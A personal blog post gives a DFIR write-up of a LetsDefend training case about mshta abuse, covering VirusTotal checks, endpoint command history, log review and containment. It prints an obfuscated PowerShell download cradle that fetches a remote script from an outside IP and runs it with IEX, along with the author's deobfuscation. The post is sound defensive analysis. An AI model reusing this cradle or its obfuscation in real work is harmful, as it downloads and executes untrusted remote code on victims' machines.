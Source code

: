 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. so here goes.
<!--more-->

![mshta behaviour](/images/wup_ld.png)

this is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history & proccess history we found at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

virustotal result are bad, 23/58 malicious flag. if we are interested we could try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)


#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use end point security to find out what is really happening in the host 172.16.17.38. From the screenshot we can see that the first command line that trigger the alert, followed by weird command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused to proxy for execution of the PS1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Tried a bit of magic at the second command below, where we can see a more bearable presentation. 
$H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". $H2 was a glorified "New-Object Net.WebClient". and $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt).

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

#### log management

After seeing what the script do, we best check log management and try to see did the server reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

apparently the server replied with 404, so no response arrived for the host (172.16.17.38) because the server (or the inteded file) is dead/ not there.

#### containment and lesson learned

Since it's definetly a malicious script (but stopped due to the C2 server is dead), it's best to contain the host. We can do this by going to endpoint security and click the request containment. 

The IP address, and URL and also the md5 hash of the executed file can then be use as IOC when we did the playbook and also close the case.



